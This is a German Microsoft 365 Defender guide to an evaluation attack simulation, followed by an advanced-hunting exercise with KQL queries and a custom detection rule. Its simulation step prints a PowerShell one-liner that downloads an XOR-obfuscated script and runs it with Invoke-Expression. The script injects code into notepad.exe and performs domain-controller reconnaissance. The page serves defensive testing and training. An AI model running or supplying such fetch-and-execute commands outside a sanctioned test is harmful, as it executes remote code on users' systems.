

# <a name="run-your-microsoft-365-defender-attack-simulations"></a>Ausführen ihrer Microsoft 365 Defender-Angriffssimulationen

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]


|[](m365d-pilot-plan.md)<br/>[Planung](m365d-pilot-plan.md)|[](prepare-m365d-eval.md)<br/>[Vorbereitung](prepare-m365d-eval.md)|<br/>Angriff simulieren|[](m365d-pilot-close.md)<br/>[Schließen und zusammenfassen](m365d-pilot-close.md)|
|--|--|--|--|
|||*Sie sind hier!*||

Sie befinden sich derzeit in der Angriffssimulationsphase.

Nach der Vorbereitung Ihrer Pilotumgebung ist es an der Zeit, die Microsoft 365 Defender Vorfallverwaltung und automatisierte Untersuchungs- und Behebungsfunktionen zu testen. Wir helfen Ihnen bei der Simulation eines komplexen Angriffs, der erweiterte Techniken nutzt, um sich vor der Erkennung auszublenden. Der Angriff zählt geöffnete Server Message Block (SMB)-Sitzungen auf Domänencontrollern auf und ruft die letzten IP-Adressen der Geräte der Benutzer ab. Diese Kategorie von Angriffen umfasst in der Regel keine Dateien, die auf dem Gerät des Opfers abgelegt wurden– sie erfolgen ausschließlich im Arbeitsspeicher. Sie "leben vom Land", indem sie vorhandene System- und Verwaltungstools verwenden und ihren Code in Systemprozesse einfügen, um ihre Ausführung auszublenden. Ein solches Verhalten ermöglicht es ihnen, die Erkennung zu umgehen und auf dem Gerät zu speichern.

In dieser Simulation beginnt unser Beispielszenario mit einem PowerShell-Skript. Ein Benutzer wird möglicherweise dazu betrogen, ein Skript auszuführen. Oder das Skript kann von einer Remoteverbindung mit einem anderen Computer von einem zuvor infizierten Gerät ausgeführt werden – der Angreifer versucht, sich seitlich im Netzwerk zu bewegen. Die Erkennung dieser Skripts kann schwierig sein, da Administratoren Skripts häufig auch remote ausführen, um verschiedene Administrative Aktivitäten auszuführen.


Während der Simulation fügt der Angriff Shellcode in einen scheinbar unerschwungenen Prozess ein. Das Szenario erfordert die Verwendung von notepad.exe. Wir haben diesen Prozess für die Simulation ausgewählt, aber Angreifer würden wahrscheinlich eher auf einen lange ausgeführten Systemprozess abzielen, z. B. svchost.exe. Die Shellcode kontaktiert dann den Befehls- und Steuerungsserver (C2) des Angreifers, um Anweisungen zum Weiteren zu erhalten. Das Skript versucht, Abstimmungsabfragen für den Domänencontroller (DC) auszuführen. Mit der Reconnaissance kann ein Angreifer Informationen über die letzten Benutzeranmeldeinformationen abrufen. Sobald Angreifer über diese Informationen verfügen, können sie sich seitlich im Netzwerk bewegen, um zu einem bestimmten vertraulichen Konto zu gelangen.

> [!IMPORTANT]
> Um optimale Ergebnisse zu erzielen, befolgen Sie die Anweisungen zur Angriffssimulation so genau wie möglich.

## <a name="simulation-environment-requirements"></a>Anforderungen an die Simulationsumgebung

Da Sie Ihre Pilotumgebung bereits während der Vorbereitungsphase konfiguriert haben, stellen Sie sicher, dass Sie über zwei Geräte für dieses Szenario verfügen: ein Testgerät und einen Domänencontroller.

1. Stellen Sie sicher, dass Ihr Mandant [Microsoft 365 Defender aktiviert](m365d-enable.md#confirm-that-the-service-is-on)hat.

2. Überprüfen Sie die Konfiguration des Test-Domänencontrollers:

   - Das Gerät wird mit Windows Server 2008 R2 oder einer neueren Version ausgeführt.
   - Der Testdomänencontroller für [Microsoft Defender for Identity](/azure/security-center/security-center-wdatp) und aktivieren die [Remoteverwaltung.](/windows-server/administration/server-manager/configure-remote-management-in-server-manager)
   - Stellen Sie sicher, dass Die Integration von [Microsoft Defender for Identity und Microsoft Cloud App Security](/cloud-app-security/mdi-integration) aktiviert wurde.
   - Ein Testbenutzer wird in Ihrer Domäne erstellt – es sind keine Administratorberechtigungen erforderlich.

3. Überprüfen sie die Konfiguration des Testgeräts:

   1. Das Gerät wird mit Windows 10 Version 1903 oder einer neueren Version ausgeführt.

   1. Das Testgerät ist der Testdomäne beigetreten.

   1. [Aktivieren Sie Windows Defender Antivirus](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features). Wenn Sie Probleme beim Aktivieren von Windows Defender Antivirus haben, lesen Sie dieses [Problembehandlungsthema.](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy)

   1. Stellen Sie sicher, dass das Testgerät [in Microsoft Defender für Endpunkt integriert ist.](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints)

Wenn Sie einen vorhandenen Mandanten verwenden und Gerätegruppen implementieren, erstellen Sie eine dedizierte Gerätegruppe für das Testgerät, und übertragen Sie sie auf die oberste Ebene der Konfigurations-UX.

## <a name="run-the-attack-scenario-simulation"></a>Ausführen der Angriffsszenariosimulation

So führen Sie die Simulation des Angriffsszenarios aus:

1. Melden Sie sich mit dem Testbenutzerkonto beim Testgerät an.

2. Öffnen Sie ein Windows PowerShell Fenster auf dem Testgerät.

3. Kopieren Sie das folgende Simulationsskript:

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```

   > [!NOTE]
   > Wenn Sie dieses Dokument in einem Webbrowser öffnen, können Probleme beim Kopieren des Vollständigtexts auftreten, ohne bestimmte Zeichen zu verlieren oder zusätzliche Zeilenumbrüche zu verursachen. Laden Sie dieses Dokument herunter, und öffnen Sie es in Adobe Reader.

4. Fügen Sie an der Eingabeaufforderung das kopierte Skript ein, und führen Sie es aus.

> [!NOTE]
> Wenn Sie PowerShell mithilfe des Remotedesktopprotokolls (RDP) ausführen, verwenden Sie den Befehl "Text der Zwischenablage eingeben" im RDP-Client, da die **STRG-V-Hotkey-** oder Right-Click-Paste-Methode möglicherweise nicht funktioniert. Aktuelle Versionen von PowerShell akzeptieren diese Methode manchmal auch nicht. Möglicherweise müssen Sie sie zuerst in Editor im Arbeitsspeicher kopieren, sie auf dem virtuellen Computer kopieren und dann in PowerShell einfügen.

Einige Sekunden später wird <i>notepad.exe</i> geöffnet. Ein simulierter Angriffscode wird in notepad.exe eingefügt. Lassen Sie die automatisch generierte Editor Instanz geöffnet, um das vollständige Szenario zu erleben.

Der simulierte Angriffscode versucht, mit einer externen IP-Adresse zu kommunizieren (den C2-Server zu simulieren) und dann über SMB eine Reconnaissance für den Domänencontroller zu versuchen.

Nach Abschluss dieses Skripts wird in der PowerShell-Konsole eine Meldung angezeigt.

```console
ran NetSessionEnum against [DC Name] with return code result 0
```

Um das Feature "Automatisierter Vorfall und Reaktion" in Aktion zu sehen, lassen Sie den notepad.exe Prozess geöffnet. Sie sehen, dass automatisierte Vorfälle und Reaktionen den Editor-Prozess beenden.

## <a name="investigate-an-incident"></a>Untersuchung eines Vorfalls

> [!NOTE]
> Bevor wir Sie durch diese Simulation führen, sehen Sie sich das folgende Video an, um zu sehen, wie die Vorfallverwaltung Ihnen dabei hilft, die zugehörigen Warnungen im Rahmen des Untersuchungsprozesses zusammenzuarbeiten, wo Sie sie im Portal finden können und wie sie Ihnen bei Ihren Sicherheitsvorgängen helfen können:

> [!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bzwz?]

Wenn Sie zur SOC-Analystenansicht wechseln, können Sie jetzt mit der Untersuchung des Angriffs im Microsoft 365 Security Center-Portal beginnen.

1. Öffnen Sie die Vorfallwarteschlange des [Microsoft 365 Security Center-Portals](https://security.microsoft.com/incidents) von einem beliebigen Gerät aus.

2. Navigieren Sie im Menü zu **"Vorfälle".**

    

3. Der neue Vorfall für den simulierten Angriff wird in der Vorfallwarteschlange angezeigt.

    

### <a name="investigate-the-attack-as-a-single-incident"></a>Untersuchen des Angriffs als einzelner Vorfall

Microsoft 365 Defender korreliert Analysen und aggregiert alle zugehörigen Warnungen und Untersuchungen aus verschiedenen Produkten in einer Vorfallentität. Auf diese Weise zeigt Microsoft 365 Defender eine umfassendere Angriffsstory, die es dem SOC-Analysten ermöglicht, komplexe Bedrohungen zu verstehen und darauf zu reagieren.

Die während dieser Simulation generierten Warnungen sind derselben Bedrohung zugeordnet und werden daher automatisch als einzelner Vorfall aggregiert.

So zeigen Sie den Vorfall an:

1. Navigieren Sie zur **Vorfallwarteschlange.**

   

2. Wählen Sie das neueste Element aus, indem Sie auf den Kreis links neben dem Vorfallnamen klicken. In einem Seitenbereich werden zusätzliche Informationen zu dem Vorfall angezeigt, einschließlich aller zugehörigen Warnungen. Jeder Vorfall hat einen eindeutigen Namen, der ihn basierend auf den Attributen der enthaltenen Warnungen beschreibt.

   

   Die Warnungen, die im Dashboard angezeigt werden, können basierend auf Dienstressourcen gefiltert werden: Microsoft Defender for Identity, Microsoft Cloud App Security, Microsoft Defender für Endpunkt, Microsoft 365 Defender und Microsoft Defender für Office 365.

3. Wählen Sie **die Seite "Vorfall öffnen"** aus, um weitere Informationen zu dem Vorfall zu erhalten.

   Auf der **Seite "Vorfall"** können Sie alle Warnungen und Informationen im Zusammenhang mit dem Vorfall anzeigen. Die Informationen umfassen die Entitäten und Ressourcen, die an der Warnung beteiligt sind, die Erkennungsquelle der Warnungen (Microsoft Defender for Identity, EDR) und den Grund, warum sie miteinander verknüpft wurden. Die Überprüfung der Warnungsliste für Vorfälle zeigt den Verlauf des Angriffs an. Aus dieser Ansicht können Sie die einzelnen Warnungen sehen und untersuchen.

   Sie können auch im rechten Menü auf **"Vorfall verwalten"** klicken, um den Vorfall zu kennzeichnen, sich selbst zuzuweisen und Kommentare hinzuzufügen.

   

   

### <a name="review-generated-alerts"></a>Überprüfen generierter Warnungen

Sehen wir uns einige der Warnungen an, die während des simulierten Angriffs generiert wurden.

> [!NOTE]
> Wir werden nur einige der Warnungen durchgehen, die während des simulierten Angriffs generiert wurden. Abhängig von der Version von Windows und den Microsoft 365 Defender Produkten, die auf Ihrem Testgerät ausgeführt werden, werden möglicherweise weitere Warnungen angezeigt, die in einer etwas anderen Reihenfolge angezeigt werden.


#### <a name="alert-suspicious-process-injection-observed-source-microsoft-defender-for-endpoint-edr"></a>Warnung: Verdächtige Prozessinjektion beobachtet (Quelle: Microsoft Defender für Endpunkt EDR)

Fortgeschrittene Angreifer verwenden ausgefeilte und bösartige Methoden, um im Arbeitsspeicher zu bleiben und sich vor Erkennungstools zu verbergen. Eine gängige Technik besteht darin, innerhalb eines vertrauenswürdigen Systemprozesses zu arbeiten, anstatt eine schädliche ausführbare Datei zu verwenden, wodurch es für Erkennungstools und Sicherheitsvorgänge schwierig wird, den schädlichen Code zu erkennen.

Damit die SOC-Analysten diese erweiterten Angriffe abfangen können, bieten tiefe Speichersensoren in Microsoft Defender für Endpunkt unserem Clouddienst einen beispiellosen Einblick in eine Vielzahl von prozessübergreifenden Codeeinfügungstechniken. Die folgende Abbildung zeigt, wie Defender für Endpunkt beim Versuch, Code in <i>notepad.exe</i>einzufügen, erkannt und benachrichtigt wurde.


#### <a name="alert-unexpected-behavior-observed-by-a-process-run-with-no-command-line-arguments-source-microsoft-defender-for-endpoint-edr"></a>Warnung: Unerwartetes Verhalten, das von einem Prozess ohne Befehlszeilenargumente beobachtet wird (Quelle: Microsoft Defender für Endpunkt EDR)

Microsoft Defender für Endpunkt-Erkennungen zielen häufig auf das am häufigsten verwendete Attribut einer Angriffstechnik ab. Mit dieser Methode wird Dies sichergestellt und die Leiste für Angreifer erhöht, um zu neueren Taktiken zu wechseln.

Wir verwenden umfangreiche Lernalgorithmen, um das normale Verhalten gängiger Prozesse innerhalb einer Organisation und weltweit zu ermitteln und zu beobachten, wann diese Prozesse anomales Verhalten aufweisen. Diese anomaalen Verhaltensweisen weisen häufig darauf hin, dass fremder Code eingeführt wurde und in einem ansonsten vertrauenswürdigen Prozess ausgeführt wird.

In diesem Szenario weist der Prozess <i>notepad.exe</i> ein ungewöhnliches Verhalten auf, das die Kommunikation mit einem externen Standort einschließt. Dieses Ergebnis ist unabhängig von der spezifischen Methode, die zum Einführen und Ausführen des schädlichen Codes verwendet wird.

> [!NOTE]
> Da diese Warnung auf Machine Learning-Modellen basiert, die eine zusätzliche Back-End-Verarbeitung erfordern, kann es einige Zeit dauern, bis diese Warnung im Portal angezeigt wird.

Beachten Sie, dass die Warnungsdetails die externe IP-Adresse enthalten – ein Indikator, den Sie als Pivot verwenden können, um die Untersuchung zu erweitern.

Wählen Sie die IP-Adresse in der Warnungsprozessstruktur aus, um die Seite mit den IP-Adressdetails anzuzeigen.


In der folgenden Abbildung wird die ausgewählte Seite mit den IP-Adressdetails angezeigt (klicken Sie in der Struktur des Warnungsprozesses auf die IP-Adresse).


#### <a name="alert-user-and-ip-address-reconnaissance-smb-source-microsoft-defender-for-identity"></a>Warnung: Benutzer- und IP-Adress-Reconnaissance (SMB) (Quelle: Microsoft Defender for Identity)

Die Aufzählung mithilfe des SMB-Protokolls (Server Message Block) ermöglicht Es Angreifern, aktuelle Benutzeranmeldeinformationen abzurufen, mit denen sie seitlich durch das Netzwerk navigieren können, um auf ein bestimmtes vertrauliches Konto zuzugreifen.

Bei dieser Erkennung wird eine Warnung ausgelöst, wenn die SMB-Sitzungsenumeration für einen Domänencontroller ausgeführt wird.


### <a name="review-the-device-timeline-microsoft-defender-for-endpoint"></a>Überprüfen der Gerätezeitachse [Microsoft Defender für Endpunkt]

Nachdem Sie die verschiedenen Warnungen in diesem Vorfall untersucht haben, navigieren Sie zurück zu der Vorfallseite, die Sie zuvor untersucht haben. Wählen Sie die Registerkarte **"Geräte"** auf der Vorfallseite aus, um die an diesem Vorfall beteiligten Geräte zu überprüfen, wie von Microsoft Defender für Endpunkt und Microsoft Defender for Identity gemeldet.

Wählen Sie den Namen des Geräts aus, auf dem der Angriff ausgeführt wurde, um die Entitätsseite für dieses bestimmte Gerät zu öffnen. Auf dieser Seite können Sie Warnungen sehen, die ausgelöst wurden, und verwandte Ereignisse.

Wählen Sie die Registerkarte **"Zeitachse"** aus, um die Gerätezeitachse zu öffnen und alle auf dem Gerät beobachteten Ereignisse und Verhaltensweisen in chronologischer Reihenfolge anzuzeigen, durchsetzt mit den ausgelösten Warnungen.


Das Erweitern einiger der interessanteren Verhaltensweisen liefert nützliche Details, z. B. Prozessstrukturen.

Scrollen Sie beispielsweise nach unten, bis Sie das Warnungsereignis **"Verdächtige Prozessinjektion" gefunden haben.** Wählen Sie die **powershell.exe aus, die in notepad.exe Prozessereignis** darunter eingefügt wurde, um die vollständige Prozessstruktur für dieses Verhalten unter dem Diagramm **"Ereignisentitäten"** im Seitenbereich anzuzeigen. Verwenden Sie bei Bedarf die Suchleiste zum Filtern.


### <a name="review-the-user-information-microsoft-cloud-app-security"></a>Überprüfen der Benutzerinformationen [Microsoft Cloud App Security]

Wählen Sie auf der Vorfallseite die Registerkarte **"Benutzer"** aus, um die Liste der an dem Angriff beteiligten Benutzer anzuzeigen. Die Tabelle enthält zusätzliche Informationen zu jedem Benutzer, einschließlich der Bewertung der **Untersuchungspriorität** jedes Benutzers.

Wählen Sie den Benutzernamen aus, um die Profilseite des Benutzers zu öffnen, auf der weitere Untersuchungen durchgeführt werden können. [Weitere Informationen zur Untersuchung riskanter Benutzer.](/cloud-app-security/tutorial-ueba#identify)


## <a name="automated-investigation-and-remediation"></a>Automatische Untersuchung und Reaktion

> [!NOTE]
>Bevor wir Sie durch diese Simulation führen, sehen Sie sich das folgende Video an, um sich mit der automatisierten Selbstkorrektur vertraut zu machen, wo sie im Portal zu finden ist und wie sie bei Ihren Sicherheitsvorgängen helfen kann:

> [!VIDEO https://www.microsoft.com/en-us/videoplayer/embed/RE4BzwB]

Navigieren Sie im Microsoft 365 Security Center-Portal zurück zu dem Vorfall. Auf der Registerkarte **"Untersuchungen"** auf der **Seite "Vorfall"** werden die automatisierten Untersuchungen angezeigt, die von Microsoft Defender for Identity und Microsoft Defender für Endpunkt ausgelöst wurden. Der screenshot unten zeigt nur die automatisierte Untersuchung, die von Defender für Endpunkt ausgelöst wurde. Standardmäßig behebt Defender für Endpunkt automatisch die Artefakte in der Warteschlange, was eine Korrektur erfordert.


Wählen Sie die Warnung aus, die eine Untersuchung ausgelöst hat, um die Seite **"Untersuchungsdetails"** zu öffnen. Die folgenden Details werden angezeigt:

- Warnungen, die die automatisierte Untersuchung ausgelöst haben.
- Betroffene Benutzer und Geräte. Wenn Indikatoren auf zusätzlichen Geräten gefunden werden, werden auch diese zusätzlichen Geräte aufgeführt.
- Liste der Nachweise. Die gefundenen und analysierten Entitäten, z. B. Dateien, Prozesse, Dienste, Treiber und Netzwerkadressen. Diese Entitäten werden auf mögliche Beziehungen zur Warnung analysiert und als gutartig oder bösartig eingestuft.
- Bedrohungen gefunden. Bekannte Bedrohungen, die während der Untersuchung gefunden werden.

> [!NOTE]
> Je nach Zeitpunkt kann die automatisierte Untersuchung noch ausgeführt werden. Warten Sie einige Minuten, bis der Prozess abgeschlossen ist, bevor Sie die Nachweise sammeln und analysieren und die Ergebnisse überprüfen. Aktualisieren Sie die **Seite "Untersuchungsdetails",** um die neuesten Ergebnisse zu erhalten.


Während der automatisierten Untersuchung hat Microsoft Defender für Endpunkt den notepad.exe Prozess identifiziert, der als eines der Artefakte eingefügt wurde, die eine Korrektur erfordern. Defender für Endpunkt stoppt automatisch die verdächtige Prozessinjektion als Teil der automatisierten Korrektur.

Sie können <i> sehen,notepad.exe</i> aus der Liste der ausgeführten Prozesse auf dem Testgerät ausgeblendet werden.

## <a name="resolve-the-incident"></a>Beheben des Vorfalls

Schließen Sie den Vorfall, nachdem die Untersuchung abgeschlossen und bestätigt wurde, dass sie behoben werden kann.

Wählen Sie **"Vorfall verwalten" aus.** Legen Sie den Status auf **"Vorfall beheben"** fest, und wählen Sie die entsprechende Klassifizierung aus.

Wenn der Vorfall behoben ist, werden alle zugehörigen Warnungen im Microsoft 365 Security Center und in den zugehörigen Portalen geschlossen.


Dies schließt die Angriffssimulation für das Vorfallmanagement und automatisierte Untersuchungs- und Behebungsszenarien ein. Die nächste Simulation führt Sie durch die proaktive Bedrohungssuche nach potenziell schädlichen Dateien.

## <a name="advanced-hunting-scenario"></a>Szenario "Erweiterte Suche"

> [!NOTE]
> Bevor wir Sie durch die Simulation führen, sehen Sie sich das folgende Video an, um die erweiterten Suchkonzepte zu verstehen, zu sehen, wo Sie sie im Portal finden können und wie sie Ihnen bei Ihren Sicherheitsvorgängen helfen kann:

> [!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bp7O]

### <a name="hunting-environment-requirements"></a>Anforderungen an die Umgebungssuche

Für dieses Szenario ist ein einzelnes internes Postfach und Gerät erforderlich. Sie benötigen auch ein externes E-Mail-Konto, um die Testnachricht zu senden.

1. Stellen Sie sicher, dass Ihr Mandant [Microsoft 365 Defender aktiviert](m365d-enable.md#confirm-that-the-service-is-on)hat.
2. Identifizieren Sie ein Zielpostfach, das für den Empfang von E-Mails verwendet werden soll.
    a. Dieses Postfach muss von Microsoft Defender für Office 365 b überwacht werden. Das Gerät aus Anforderung 3 muss auf dieses Postfach zugreifen.
3. Konfigurieren eines Testgeräts: a. Stellen Sie sicher, dass Sie Windows 10 Version 1903 oder höher verwenden.
    b. Verknüpfen Sie das Testgerät mit der Testdomäne.
    c. [Aktivieren Sie Windows Defender Antivirus](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features). Wenn Sie Probleme beim Aktivieren von Windows Defender Antivirus haben, lesen Sie [dieses Problembehandlungsthema.](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy)
    d. [Onboarding in Microsoft Defender für Endpunkt](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).

### <a name="run-the-simulation"></a>Ausführen der Simulation

1. Senden Sie von einem externen E-Mail-Konto aus eine E-Mail an das postfach, das in Schritt 2 des Abschnitts mit den Anforderungen für die Testumgebung angegeben wurde. Fügen Sie eine Anlage hinzu, die über alle vorhandenen E-Mail-Filterrichtlinien zulässig ist. Diese Datei muss nicht bösartig oder eine ausführbare Datei sein. Vorgeschlagene Dateitypen sind <i>.pdf, </i> <i>.exe</i> (sofern zulässig) oder Office Dokument, z. B. eine Word-Datei.
2. Öffnen Sie die gesendete E-Mail von dem Gerät, das gemäß der Definition in Schritt 3 des Abschnitts mit den Anforderungen an die Testumgebung konfiguriert ist. Öffnen Sie die Anlage, oder speichern Sie die Datei auf dem Gerät.

#### <a name="go-hunting"></a>Suche gehen

1. Öffnen Sie das security.microsoft.com-Portal.

2. Navigieren Sie zu **"Suche > Erweiterte Suche".**

   

3. Erstellen Sie eine Abfrage, die mit dem Sammeln von E-Mail-Ereignissen beginnt.

   1. Wählen Sie im Abfragebereich "Neu" aus.

   1. Doppelklicken Sie im Schema auf die Tabelle EmailEvents.

      ```console
      EmailEvents
      ```

   1. Ändern Sie den Zeitrahmen in die letzten 24 Stunden. Angenommen, die E-Mail, die Sie beim Ausführen der oben genannten Simulation gesendet haben, lag in den letzten 24 Stunden, andernfalls ändern Sie den Zeitrahmen.

      

   1. Führen Sie die Abfrage aus. Abhängig von der Umgebung für das Pilotprojekt haben Sie möglicherweise viele Ergebnisse.

      > [!NOTE]
      > Weitere Informationen zum Filtern von Optionen zum Einschränken der Datenrückgabe finden Sie im nächsten Schritt.

      

        > [!NOTE]
        > Bei der erweiterten Suche werden Abfrageergebnisse als tabellarische Daten angezeigt. Sie können die Daten auch in anderen Formattypen wie Diagrammen anzeigen.

   1. Sehen Sie sich die Ergebnisse an, und überprüfen Sie, ob Sie die geöffnete E-Mail identifizieren können. Es kann bis zu 2 Stunden dauern, bis die Nachricht in der erweiterten Suche angezeigt wird. Wenn die E-Mail-Umgebung groß ist und viele Ergebnisse vorliegen, können Sie die **Option "Filter anzeigen"** verwenden, um die Nachricht zu finden.

      Im Beispiel wurde die E-Mail von einem Yahoo-Konto gesendet. Klicken Sie auf das **+** Symbol neben **yahoo.com** im Abschnitt "SenderFromDomain", und klicken Sie dann auf **"Übernehmen",** um der Abfrage die ausgewählte Domäne hinzuzufügen. Verwenden Sie das Domänen- oder E-Mail-Konto, das zum Senden der Testnachricht in Schritt 1 von "Simulation ausführen" verwendet wurde, um Ihre Ergebnisse zu filtern. Führen Sie die Abfrage erneut aus, um ein kleineres Resultset abzurufen, um zu überprüfen, ob die Nachricht aus der Simulation angezeigt wird.

      

      ```console
      EmailEvents
      | where SenderMailFromDomain == "yahoo.com"
      ```

   1. Klicken Sie auf die resultierenden Zeilen aus der Abfrage, damit Sie den Datensatz überprüfen können.

      

4. Nachdem Sie sich vergewissert haben, dass die E-Mail angezeigt wird, fügen Sie einen Filter für die Anlagen hinzu. Konzentrieren Sie sich auf alle E-Mails mit Anlagen in der Umgebung. Konzentrieren Sie sich für dieses Szenario auf eingehende E-Mails, nicht auf E-Mails, die aus Ihrer Umgebung gesendet werden. Entfernen Sie alle Filter, die Sie hinzugefügt haben, um Ihre Nachricht zu finden, und fügen Sie "| **wobei AttachmentCount > 0** und **EmailDirection**  ==  **"Eingehend"**

   In der folgenden Abfrage wird das Ergebnis mit einer kürzeren Liste angezeigt als die ursprüngliche Abfrage für alle E-Mail-Ereignisse:

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   ```

5. Fügen Sie als Nächstes die Informationen zur Anlage (z. B. Dateiname, Hashes) in das Resultset ein. Fügen Sie dazu der **Tabelle EmailAttachmentInfo** bei. Die allgemeinen Felder, die für die Verknüpfung verwendet werden sollen, in diesem Fall sind **NetworkMessageId** und **RecipientObjectId**.

   Die folgende Abfrage enthält auch eine zusätzliche Zeile "| **project-rename EmailTimestamp=Timestamp**" that'll help identify which timestamp was related to the email versus timestamps related to file actions that you'll add in the next step.

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   | project-rename EmailTimestamp=Timestamp
   | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
   ```

6. Verwenden Sie als Nächstes den **SHA256-Wert** aus der **Tabelle EmailAttachmentInfo ,** um **DeviceFileEvents** (Dateiaktionen, die auf dem Endpunkt ausgeführt wurden) für diesen Hash zu suchen. Das allgemeine Feld hier ist der SHA256-Hash für die Anlage.

   Die resultierende Tabelle enthält nun Details vom Endpunkt (Microsoft Defender für Endpunkt), z. B. den Gerätenamen, welche Aktion ausgeführt wurde (in diesem Fall gefiltert, um nur FileCreated-Ereignisse einzuschließen), und wo die Datei gespeichert wurde. Der dem Prozess zugeordnete Kontoname wird ebenfalls eingeschlossen.

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   | project-rename EmailTimestamp=Timestamp
   | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
   | join DeviceFileEvents on SHA256
   | where ActionType == "FileCreated"
   ```

   Sie haben nun eine Abfrage erstellt, die alle eingehenden E-Mails identifiziert, in denen der Benutzer die Anlage geöffnet oder gespeichert hat. Sie können diese Abfrage auch verfeinern, um nach bestimmten Absenderdomänen, Dateigrößen, Dateitypen usw. zu filtern.

7. Funktionen sind eine besondere Art von Verknüpfung, mit der Sie mehr TI-Daten zu einer Datei wie Verbreitung, Signaturgeber- und Ausstellerinformationen usw. abrufen können. Um weitere Details zur Datei zu erhalten, verwenden Sie die **FileProfile()-Funktionserweiterung:**

    ```console
    EmailEvents
    | where AttachmentCount > 0 and EmailDirection == "Inbound"
    | project-rename EmailTimestamp=Timestamp
    | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
    | join DeviceFileEvents on SHA256
    | where ActionType == "FileCreated"
    | distinct SHA1
    | invoke FileProfile()
    ```

#### <a name="create-a-detection"></a>Erstellen einer Erkennung

Nachdem Sie eine Abfrage erstellt haben, die Informationen identifiziert, über die Sie **benachrichtigt werden** möchten, ob sie in der Zukunft auftreten, können Sie eine benutzerdefinierte Erkennung aus der Abfrage erstellen.

Benutzerdefinierte Erkennungen führen die Abfrage entsprechend der von Ihnen festgelegten Häufigkeit aus, und die Ergebnisse der Abfragen erstellen Sicherheitswarnungen, basierend auf den betroffenen Ressourcen, die Sie auswählen. Diese Warnungen werden mit Vorfällen korreliert und können als jede andere Sicherheitswarnung, die von einem der Produkte generiert wird, triagediert werden.

1. Entfernen Sie auf der Abfrageseite die Zeilen 7 und 8, die in Schritt 7 der Go-Suchanweisungen hinzugefügt wurden, und klicken Sie auf **Erkennungsregel erstellen.**

   

   > [!NOTE]
   > Wenn Sie auf **"Erkennungsregel erstellen"** klicken und in Ihrer Abfrage Syntaxfehler vorhanden sind, wird die Erkennungsregel nicht gespeichert. Überprüfen Sie Ihre Abfrage, um sicherzustellen, dass keine Fehler vorhanden sind.

2. Füllen Sie die erforderlichen Felder mit den Informationen aus, die es dem Sicherheitsteam ermöglichen, die Warnung zu verstehen, warum sie generiert wurde und welche Aktionen sie erwarten.

   

   Stellen Sie sicher, dass Sie die Felder mit Klarheit ausfüllen, um dem nächsten Benutzer eine fundierte Entscheidung über diese Warnung zur Erkennungsregel zu geben.

3. Wählen Sie aus, welche Entitäten in dieser Warnung betroffen sind. Wählen Sie in diesem Fall **"Gerät** und **Postfach"** aus.

   

4. Bestimmen Sie, welche Aktionen ausgeführt werden sollen, wenn die Warnung ausgelöst wird. Führen Sie in diesem Fall eine Antivirenüberprüfung aus, obwohl andere Aktionen ausgeführt werden konnten.

   

5. Wählen Sie den Bereich für die Warnungsregel aus. Da diese Abfrage Geräte betrifft, sind die Gerätegruppen in dieser benutzerdefinierten Erkennung gemäß dem Microsoft Defender für Endpunktkontext relevant. Beim Erstellen einer benutzerdefinierten Erkennung, die keine Geräte als betroffene Entitäten enthält, gilt der Bereich nicht.

   

   Bei diesem Pilotprojekt sollten Sie diese Regel auf eine Teilmenge der Testgeräte in Ihrer Produktionsumgebung beschränken.

6. Wählen Sie **Erstellen** aus. Wählen Sie dann im Navigationsbereich **benutzerdefinierte Erkennungsregeln** aus.

   

   

   Auf dieser Seite können Sie die Erkennungsregel auswählen, die eine Detailseite öffnet.

   

### <a name="additional-advanced-hunting-walk-through-exercises"></a>Zusätzliche exemplarische Übungen zur erweiterten Suche

Um mehr über die erweiterte Suche zu erfahren, werden Die folgenden Webcasts führen Sie durch die Funktionen der erweiterten Suche innerhalb Microsoft 365 Defender, um säulenübergreifende Abfragen zu erstellen, zu Entitäten zu pivotieren und benutzerdefinierte Erkennungs- und Korrekturaktionen zu erstellen.

> [!NOTE]
> Bereiten Sie sich mit Ihrem eigenen GitHub Konto vor, um die Suchabfragen in Ihrer Pilottestumgebung auszuführen.

|Titel|Beschreibung|HERUNTERLADEN VON MP4|Auf YouTube ansehen|ZU verwendende CSL-Datei|
|---|---|---|---|---|
